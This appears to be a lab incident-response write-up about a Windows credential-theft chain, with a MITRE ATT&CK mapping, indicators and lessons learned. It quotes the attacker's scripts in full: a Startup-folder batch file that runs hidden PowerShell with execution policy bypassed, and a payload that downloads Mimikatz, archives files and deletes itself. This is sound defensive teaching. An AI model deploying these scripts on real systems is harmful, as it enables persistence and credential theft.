

# 06 — Windows Incident Response

Full investigation of a credential-theft attack chain on a domain workstation.

**Date of incident:** 21 January 2026, 11:06:54
**Affected host:** Windows 10 workstation
**Affected account:** `dada-student`
**Framework:** SANS Incident Response (6 phases)

---

## Summary

Three malicious files were placed on the workstation and worked together as a staged
attack that executed on user logon:

| Stage | File | Location |
|---|---|---|
| 1 — Persistence | `fun.bat` | `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\` |
| 2 — Payload | `psspssp.ps1` | `C:\Users\dada-student\Videos\` |
| 3 — Decoy | `cat.bat` | `C:\Program Files\Common Files\` |

`fun.bat` sat in the Startup folder, giving the chain persistence — it re-executed on every
logon. It launched the PowerShell payload with execution policy bypassed and the window
hidden:

```bat
@echo off
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File "C:\Users\dada-student\Videos\psspssp.ps1"
```

`psspssp.ps1` did the actual work: launched the decoy, pulled Mimikatz from GitHub, created
marker files, archived system files for exfiltration, enumerated processes, and deleted
itself.

```powershell
Start-Process -FilePath "C:\Program Files\Common Files\cat.bat"

$URL="https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip"
$Path="C:\Users\dada-student\Desktop\oopsies.zip"
Invoke-WebRequest -URI $URL -OutFile $Path

New-Item -Path "C:\Users\dada-student\3D Objects" -Name "you_cant.txt" -ItemType "file" -Value "Hey!"
New-Item -Path "C:\Users\Public\Documents" -Name "catch_me.txt" -ItemType "file" -Value "You stop that!"
New-Item -Path "C:\Users\Public\Downloads" -Name "definitely_not_exfil" -ItemType "directory"

Compress-Archive -Path "C:\Program Files (x86)\Common Files\System\ado\en-US\*" `
                 -DestinationPath "C:\Users\Public\Downloads\definitely_not_exfil\get_me_outa_here.zip"

Start-Job -ScriptBlock {Get-Process -Name qwinsta}
Start-Job -ScriptBlock {Get-Process -Name powershell}

Remove-Item psspssp.ps1
```

`cat.bat` was cover — an infinite loop printing random numbers in green, the visual
"hacker" cliché:

```bat
@echo off
color 0a
:a
echo %random% %random% %random% %random% %random% %random%
goto a
```

It served no technical purpose. Ironically it was also what gave the whole thing away —
the user noticed the green cascade and reported it. Without it the chain might have run
unnoticed for weeks.

---

## MITRE ATT&CK mapping

| Technique | ID | Evidence |
|---|---|---|
| Boot or Logon Autostart Execution: Startup Folder | T1547.001 | `fun.bat` in the per-user Startup directory |
| Command and Scripting Interpreter: PowerShell | T1059.001 | `powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden` |
| Impair Defenses / bypass execution controls | T1562.001 | `-ExecutionPolicy Bypass` circumventing script restrictions |
| Ingress Tool Transfer | T1105 | `Invoke-WebRequest` pulling Mimikatz from GitHub |
| OS Credential Dumping: LSASS Memory | T1003.001 | Mimikatz staged on Desktop as `oopsies.zip` |
| Archive Collected Data: Archive via Utility | T1560.001 | `Compress-Archive` into `get_me_outa_here.zip` |
| Indicator Removal: File Deletion | T1070.004 | `Remove-Item psspssp.ps1` — payload self-deletes |

*Mapping is my own analysis of the observed chain.*

---

## Indicators of compromise

| Type | Indicator |
|---|---|
| File | `C:\Users\dada-student\Videos\psspssp.ps1` |
| File | `C:\Program Files\Common Files\cat.bat` |
| File | `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\fun.bat` |
| File | `C:\Users\dada-student\Desktop\oopsies.zip` (Mimikatz) |
| File | `C:\Users\Public\Downloads\definitely_not_exfil\get_me_outa_here.zip` |
| File | `C:\Users\dada-student\3D Objects\you_cant.txt` |
| File | `C:\Users\Public\Documents\catch_me.txt` |
| Network | `github.com/gentilkiwi/mimikatz/releases/...` |
| Behavioral | PowerShell with `-ExecutionPolicy Bypass -WindowStyle Hidden` |
| Visual | Cascading green random numbers on logon |

---

## Tools used

**Event Viewer** — primary. Windows PowerShell log, Event ID 600 (Provider Lifecycle),
logged 1/21/2026 11:06:54 AM, captured the full `HostApplication` string:

```
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\dada-student\Videos\psspssp.ps1
```


That single field gave me the payload path, the bypass flag, and the execution timestamp
in one line, and anchored the timeline. Correlating against Security-log logon events tied
execution to user logon rather than a scheduled task.

**Autoruns** — confirmed the persistence mechanism.



`fun.bat` appears under the Logon tab, highlighted and flagged `(Not Verified)`, pointing
at the per-user Startup folder. Every other entry in the view carries a verified Microsoft
signature — the contrast is what makes the outlier obvious at a glance. This is what
established that the chain would re-execute on every logon rather than being a one-off.

**Not used — and that's the finding.** Process Monitor, Process Explorer, and Sysmon were
all available and I didn't use any of them. See lessons learned.

---

## SANS IR phases

### 2. Identification

Started from the user-visible IoC — green numbers on screen at logon. Event Viewer's
PowerShell logs surfaced `psspssp.ps1` as the main payload. Reading the script revealed the
Mimikatz download, the decoy files, and the archive staging. Following `Start-Process` from
the payload led to `cat.bat` as the display generator. Autoruns then revealed `fun.bat` in
the Startup folder as the persistence anchor and the true entry point of the chain.

Working backwards from symptom → payload → persistence is a reasonable order to arrive at
the answer, but it's not the order I'd choose again (see lessons learned).

### 3. Containment

- Isolate the workstation from the network to stop further exfiltration or spread
- Disable the `dada-student` account pending review
- Disable the Startup entry to prevent re-execution on next logon

### 4. Eradication

Remove all three identified files plus the staged artifacts (`oopsies.zip`,
`get_me_outa_here.zip`, the marker files, the `definitely_not_exfil` directory).

Although all three components of the chain were identified, a full Autoruns sweep across
every autostart location — Run keys, services, scheduled tasks, WMI subscriptions — should
still be performed. Knowing you found *a* persistence mechanism isn't the same as knowing
you found *all* of them.

### 5. Recovery

Reimage, or restore to a known-good snapshot. Given Mimikatz was staged on the host,
credential theft has to be assumed rather than disproven — reset the `dada-student`
password, and reset any other credential that may have been cached in memory on that
machine. In a real domain that means reviewing every account that had logged into the host,
and rotating the `krbtgt` account if there's any indication of a Golden Ticket risk.

### 6. Lessons Learned

**What went wrong in my process.** I identified all three files and reconstructed the
chain correctly, but I got there largely through manual file inspection and Autoruns.
Procmon, Process Explorer, and Sysmon were all installed and available, and I used none of
them. The conclusion was right; the method was thinner than it should have been.

**What that cost.** Without Sysmon I had no reliable process-tree data, so the
parent/child relationships between `fun.bat`, `powershell.exe`, and `cat.bat` were inferred
from reading source rather than observed from telemetry. Without Procmon I have no
file-system or registry activity record, which means I can't rule out actions the scripts
took that aren't visible in their own source. If any component had been obfuscated or
packed, reading the scripts wouldn't have worked at all and I'd have had nothing to fall
back on.

**The order I'd use next time:**

1. **Process Explorer first** — capture what's running right now, before anything is
   killed or the host is rebooted. Volatile state is the first thing lost.
2. **Sysmon + Event Viewer** — build the timeline from process-creation events with full
   command lines, correlated against logon events.
3. **Procmon** — filter on `powershell.exe` and `cmd.exe` to observe file and registry
   activity as it happens.
4. **Autoruns last** — persistence enumeration is a confirmation step, not a starting
   point.

**The structural fix.** The real gap is that I did this investigation host-local. The
environment has a Wazuh deployment ([docs/04](04-domain-join-and-siem.md)) and the audit
policy from [docs/05](05-environment-audit.md) — Script Block Logging in particular would
have captured the payload contents centrally, before it deleted itself. Centralized
telemetry doesn't just make investigation faster; it survives the attacker's cleanup. The
`Remove-Item psspssp.ps1` at the end of that script is exactly the case where log
forwarding is the difference between having evidence and not.
